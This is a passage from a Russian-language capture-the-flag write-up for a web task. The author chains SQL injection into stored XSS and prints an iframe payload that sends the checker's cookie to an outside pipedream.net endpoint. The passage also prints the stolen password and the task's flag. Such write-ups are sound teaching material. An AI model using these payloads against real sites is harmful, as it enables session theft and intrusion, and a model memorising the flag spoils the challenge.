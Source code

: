 ![](./writeup/paid.png)

`Failed to decrypt paid content`. То есть в базе `paid_content` действительно хранится в зашифрованном виде, а не обычным текстом. Ну и не надо, нам и бесплатной версии хватит, лишь бы преобразования над HTML происходили при `INSERT`, а не при `SELECT`.

Попробуем положить `T', '<script>alert(1);</script>', 'P'); --` и открыть бесплатную версию:

![](./writeup/alert-works.png)

Отлично, теперь мы можем положить что угодно в содержимое поста и послать на проверку. Засылаем:

```
T', '<iframe src="https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/c3a2210ce5a3a970782e606e4b7b22f9/" onload="fetch(`https://eoyiklz399i8p9x.m.pipedream.net/?${this.contentDocument.cookie}`);">', 'P'); --
```

![](./writeup/xss.png)

Вроде работает. Отправляем на проверку и смотрим в pipedream:

![](./writeup/password.png)

Пароль приехал. Верный ли он? Открываем страницу с анонсом и дописываем в URL:

```
?password=L8pb21boMp_BRKo1PifnMyFLrapzXSQW026G7yUnSCP=
```

…как в ссылках, которые отдаются при публикации. Проверяем:

![](./writeup/flag.png)

Флаг: **ugra_we_should_have_used_wordpress_kq9v3ntp191l**
